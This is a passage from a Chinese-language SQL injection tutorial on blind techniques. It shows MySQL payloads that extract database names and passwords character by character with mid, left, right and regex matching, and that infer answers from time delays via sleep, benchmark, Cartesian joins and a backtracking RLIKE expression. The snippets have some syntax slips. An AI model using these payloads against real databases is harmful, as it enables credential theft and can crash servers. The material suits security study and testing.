 **mid 函数**

`mid(str, pos, length)`
`mid(str from pos for length)`

```sql
select mid(database(), from 1 for 1)
select mid(database(), 1, 1)
```

**left 函数**

从左开始截取字符串

`left(str, len)`

```sql
select left(database(), 1) 
```

**right 函数**

从右开始截取字符串

`right(str, len)`

**利用正则表达式逐位匹配**

```sql
select * from wp_user_ where password rlike "^1"
select * from wp_user_ where password REGEXP "^1"
select * from wp_user_ where password REGEXP "^12"
...
```

#### 5.2.4 延时函数

`sleep(n)`：程序挂起 n 秒

```sql
if(ascii(substr(database() from 0))=97, sleep(3),0)
```

`benchmark(count, sha(1))`：执行 sha(1) 函数 count 次达到延时的目的

```sql
SELECT BENCHMARK(10000000, sha(1))
```

利用笛卡尔积制造延时：

```sql
SELECT count(*) from information_schema.columns A, information_schema.columns B, information_schema.tables C;
```

**实际测试使用information_schema.columns并不稳定，对于不同的网站效果不同，太少会没有明显延时效果，太多则会导致数据库崩溃**

使用`character_sets`（41行）和`collations`（222行）效果可能会好点，因为数据量相对计较统一

利用正则表达式匹配长字符串制造延时：

```sql
select * from wp_user_ where id =1 and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0)
```
